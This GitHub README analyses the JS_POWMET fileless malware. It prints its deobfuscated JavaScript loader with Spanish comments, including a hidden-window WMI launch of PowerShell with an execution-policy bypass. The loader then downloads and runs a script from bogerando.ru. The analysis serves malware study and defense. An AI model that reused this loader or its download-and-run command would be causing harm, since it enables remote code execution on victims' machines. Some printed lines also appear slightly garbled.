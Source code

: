 # JS_POWMET
JS_POWMET Malware Analysis, Javascript, Analysis descriptions and more... =)

This repo will contain an analysis of JS_POWMET some files will be uploaded to this repo that will contain "malicious code".

You can get an analysis from trendmicro in the next url: http://blog.trendmicro.com/trendlabs-security-intelligence/look-js_powmet-completely-fileless-malware/


Now We will explain the analysis phases:

## Javascript JS_POWMET

First, we checked the xml file with embedded javascript (wscript) code, and we could see that everything was obfuscated on a line with different encodings.
So in a great effort and line by line, we started to study program's logic, and get the functionality of each method.


## How javascript malware works

<strong>We changed some code for its string equivalent, if you want to see the equivalent check code comments</strong>

First thing malware does, it is to rotate the variable array_cifrado_Antes_llamado_0xa994 (you have the output from this function in the variable array_cifrado_movido). 

Normal Array:
```javascript
var array_cifrado_Antes_llamado_0xa994 = [" /p1'))", 'winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2', 'Get', 'Win32_ProcessStartup', 'SpawnInstance_', 'ShowWindow', 'winmgmts:root\cimv2:Win32_Process', 'Create', '%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe', 'FileExists', 'ExpandEnvironmentStrings', '%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe', 'toPrecision', 'https://bogerando.ru', 'WScript.Shell', "Scripting.FileSystemObject", " -nop -ep Bypass -noexit -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('"];
```

Array rotated:
```javascript
var array_cifrado_movido = ['winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2', 'Get', 'Win32_ProcessStartup', 'SpawnInstance_', 'ShowWindow', 'winmgmts:root\cimv2:Win32_Process', 'Create', '%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe', 'FileExists', 'ExpandEnvironmentStrings', '%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe', 'toPrecision', 'https://bogerando.ru', 'WScript.Shell', "Scripting.FileSystemObject", " -nop -ep Bypass -noexit -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('"," /p1'))"];
```

Function to rotate array:
```javascript
 (function(array_cifrado_parametro, var_0x155) {
			/*
			* gira 250 veces el array
			*/
            var remueve_array = function(var_contador) {
                while (--var_contador) {
					// '\x70\x75\x73\x68' = push 
					// '\x73\x68\x69\x66\x74' = shift 
					
                    array_cifrado_parametro['push'](array_cifrado_parametro['shift']());
                }
            };
            remueve_array(++var_0x155);
        }(array_cifrado_Antes_llamado_0xa994, 0x155));
```

At the same time, It creates some variables:
```javascript
var wshel, fso, url, fpath, fextension, showexec, pspath;
```

Malware will use these variables in this code, this code will run the method abc_bbb if user has Powershell installed: 
```javascript
try {
var i = 0x258;
// extraerString_AntesLlamado_0x4a99('0xb') = "toPrecision"
alert(i["toPrecision"](0x1f40));
} catch (_0x356210) {
try {
	// extraerString_AntesLlamado_0x4a99('0xc') = "https://bogerando.ru"
    url = "https://bogerando.ru";
    showexec = 0x0;
	// extraerString_AntesLlamado_0x4a99('0xd') = "WScript.Shell"
    wshel = new ActiveXObject("WScript.Shell");
	//extraerString_AntesLlamado_0x4a99('0xe') = "Scripting.FileSystemObject"
    fso = new ActiveXObject("Scripting.FileSystemObject");
    if (is_ps_installed()) {
		// extraerString_AntesLlamado_0x4a99('0xf') = " -nop -ep Bypass -noexit -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('"
        // extraerString_AntesLlamado_0x4a99('0x10') = " /p1'))"
		abc_bbb(pspath + " -nop -ep Bypass -noexit -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('" + url + " /p1'))", showexec);
    }
} catch (_0x243c33) {}
```
Here is the powershell check code:
```javascript
function is_ps_installed() {
/*
* Función para obtener la ruta hacia powershell
*/
//\x45\x78\x70\x61\x6e\x64\x45\x6e\x76\x69\x72\x6f\x6e\x6d\x65\x6e\x74\x53\x74\x72\x69\x6e\x67\x73 = ExpandEnvironmentStrings
pspath = wshel['ExpandEnvironmentStrings']("%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe"); // extraerString_AntesLlamado_0x4a99('0x7') =  "%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe"
// extraerString_AntesLlamado_0x4a99('0x8') = "FileExists"
if (fso["FileExists"](pspath)) {
    return pspath;
} else {
	// extraerString_AntesLlamado_0x4a99('0x9') = "ExpandEnvironmentStrings"
	// extraerString_AntesLlamado_0x4a99('0xa') = "%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe"
    pspath = wshel["ExpandEnvironmentStrings"]("%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe");
    if (fso["FileExists"](pspath)) {
        return pspath;
    }
}
return null;
}
```
Finally the abc_bbb code, will create some winmgmts objects to run powershell with a hidden console, this powershell command will download and run powershell code. Here is the abc_bbb function:
```javascript
function abc_bbb(_0xe83a79, showexec_0x52b22a) {
/*
* abc_bbb Ejecuta metodos winmgmts sin mostrar nada 
* 
* showexec_0x52b22a = 0x0 (No mostrar consola)
*/
try {
    var _0x32ce2c = GetObject("winmgmts:{impersonationLevel=impersonate}!\.ootcimv2"); //  extraerString_AntesLlamado_0x4a99('0x0') = "winmgmts:{impersonationLevel=impersonate}!\.ootcimv2"
    var _0x6b4dc5 = _0x32ce2c["Get"]("Win32_ProcessStartup"); // extraerString_AntesLlamado_0x4a99('0x1') = "Get" , extraerString_AntesLlamado_0x4a99('0x2') = "Win32_ProcessStartup"
    var Object_config_0xa44dcc = _0x6b4dc5["SpawnInstance_"](); // extraerString_AntesLlamado_0x4a99('0x3') = "SpawnInstance_"
    Object_config_0xa44dcc["ShowWindow"] = showexec_0x52b22a; // extraerString_AntesLlamado_0x4a99('0x4') = "ShowWindow"
    var _0x180dea = GetObject("winmgmts:rootcimv2:Win32_Process"); // extraerString_AntesLlamado_0x4a99('0x5') = "winmgmts:rootcimv2:Win32_Process"
    var Process_ID_0x321dea; // aqui guardara el PID del proceso
    return _0x180dea["Create"](_0xe83a79, null, Object_config_0xa44dcc, Process_ID_0x321dea); // extraerString_AntesLlamado_0x4a99('0x6') = "Create"
} catch (_0x352a82) {}
// ![] = false
return false;
}
```
Last function is an interesting function to decode each line from first array, instead of using normal javascript functions to decode the line, it will decode character by character.
```javascript
var extraerString_AntesLlamado_0x4a99 = function(valor_entero_Antes_llamado_0x38fb4f, no_vale_para_nada) 
{
    valor_entero_Antes_llamado_0x38fb4f = valor_entero_Antes_llamado_0x38fb4f - 0x0;
    var linea_array_cifrado = array_cifrado_Antes_llamado_0xa994[valor_entero_Antes_llamado_0x38fb4f];
	//\x69\x6e\x69\x74\x69\x61\x6c\x69\x7a\x65\x64 = initialized
    if (extraerString_AntesLlamado_0x4a99['initialized'] === undefined) {
        (function() {
			/*
			* Función para decodificar cada linea de base64 letra a letra 
			* intenta ofuscar el método de decodificación.
			*/
			//\x72\x65\x74\x75\x72\x6e\x20\x28\x66\x75\x6e\x63\x74\x69\x6f\x6e\x20\x28\x29\x20 = return (function () 
			//\x7b\x7d\x2e\x63\x6f\x6e\x73\x74\x72\x75\x63\x74\x6f\x72\x28\x22\x72\x65\x74\x75\x72\x6e\x20\x74\x68\x69\x73\x22\x29\x28\x29 = {}.constructor("return this")()
			//\x29\x3b = );
            var _0x4df2e5 = Function('return (function ()' + '{}.constructor("return this")()' + ');');
            var _0x38fe1b = _0x4df2e5(); // retorna función anonima
			//'\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x2b\x2f\x3d' =  ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=
            var _0x1dc063 = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';
			//\x61\x74\x6f\x62 =  atob (decodifica una cadena en base64)
            _0x38fe1b['atob'] || (_0x38fe1b['atob'] = function(_0x3e2949) {
				// \x72\x65\x70\x6c\x61\x63\x65 = replace
				/* 
				* var _0x3644f3 = String(_0x3e2949)['replace'](/=+$/, ''); 
				* Creemos  que esta función reemplaza todos los iguales de final de linea por nada
				*/
                var _0x3644f3 = String(_0x3e2949)['replace'](/=+$/, '');
				//\x63\x68\x61\x72\x41\x74 = charAt
				//\x66\x72\x6f\x6d\x43\x68\x61\x72\x43\x6f\x64\x65 = fromCharCodefromCharCode
				//\x69\x6e\x64\x65\x78\x4f\x66 = indexOf
                for (var i = 0x0, j, l, k = 0x0, m = ''; //inicializacion
				l = _0x3644f3['charAt'](k++); //finalizacion
				~l && (j = i % 0x4 ? j * 0x40 + l : l, i++ % 0x4) ? m += String['fromCharCodefromCharCode'](0xff & j >> (-0x2 * i & 0x6)) : 0x0) //modificacion
				{
                    l = _0x1dc063['indexOf'](l);
                }
                return m;
            });
        }());
        //\x62\x61\x73\x65\x36\x34\x44\x65\x63\x6f\x64\x65\x55\x6e\x69\x63\x6f\x64\x65 =  base64DecodeUnicode
		extraerString_AntesLlamado_0x4a99['base64DecodeUnicode'] = function(_0x12e606) {
			/*
			* Codificador a hexadecimal de las cadenas
			* finalmente lo decodifica como URIs
			*/
            var base64_decodificado = atob(_0x12e606);
            var _0x29e7ff = [];
			//\x6c\x65\x6e\x67\x74\x68 = length
            for (var i = 0x0, j = base64_decodificado['length']; i < j; i++) {
				// \x25 %
				// \x30 0 
				// \x63\x68\x61\x72\x43\x6f\x64\x65\x41\x74 = charCodeAt
				// \x74\x6f\x53\x74\x72\x69\x6e\x67 = toString
				// \x73\x6c\x69\x63\x65 = slice
                _0x29e7ff += '%' + ('00' + base64_decodificado['charCodeAt'](i)['toString'](16))['slice'](-0x2);
            }
            return decodeURIComponent(_0x29e7ff);
        };
		// \x64\x61\x74\x61 = data
        extraerString_AntesLlamado_0x4a99['data'] = {};
		//\x69\x6e\x69\x74\x69\x61\x6c\x69\x7a\x65\x64 = initialized
		// inicializa a true 
		// !![] = true
        extraerString_AntesLlamado_0x4a99['initialized'] = true;
    }
    if (extraerString_AntesLlamado_0x4a99['data'][valor_entero_Antes_llamado_0x38fb4f] === undefined) {
		//\x62\x61\x73\x65\x36\x34\x44\x65\x63\x6f\x64\x65\x55\x6e\x69\x63\x6f\x64\x65 = base64DecodeUnicode
        linea_array_cifrado = extraerString_AntesLlamado_0x4a99['base64DecodeUnicode'](linea_array_cifrado);
        extraerString_AntesLlamado_0x4a99['data'][valor_entero_Antes_llamado_0x38fb4f] = linea_array_cifrado;
    } else {
        linea_array_cifrado = extraerString_AntesLlamado_0x4a99['data'][valor_entero_Antes_llamado_0x38fb4f];
    }
    return linea_array_cifrado;
};
```


You can check the obfuscated code in: <a href="https://github.com/Fare9/JS_POWMET/blob/master/JS_POWMET.DE.xml">JS_POWMET.DE.xml</a>

The deobfuscated code in: <a href="https://github.com/Fare9/JS_POWMET/blob/master/JS_POWMET.DE%28desofuscado%29.xml">JS_POWMET.DE(deobfuscated).xml</a>

And the Strings: <a href="https://github.com/Fare9/JS_POWMET/blob/master/CadenasCodificadasDescodificadas">Strings</a>



## Analysts

- <a href="https://es.linkedin.com/in/aperezreyes">Alberto Pérez Reyes</a>
- <a href="https://www.linkedin.com/in/eduardo-blazquez-23093999/">Eduardo Blázquez (a.k.a Fare9)</a>


## Remember visit and follow

<a href="https://github.com/Fare9">https://github.com/Fare9</a>
<a href="https://github.com/campeador">https://github.com/campeador</a>
<a href="https://twitter.com/Erockandblues">Fare9 Twitter</a>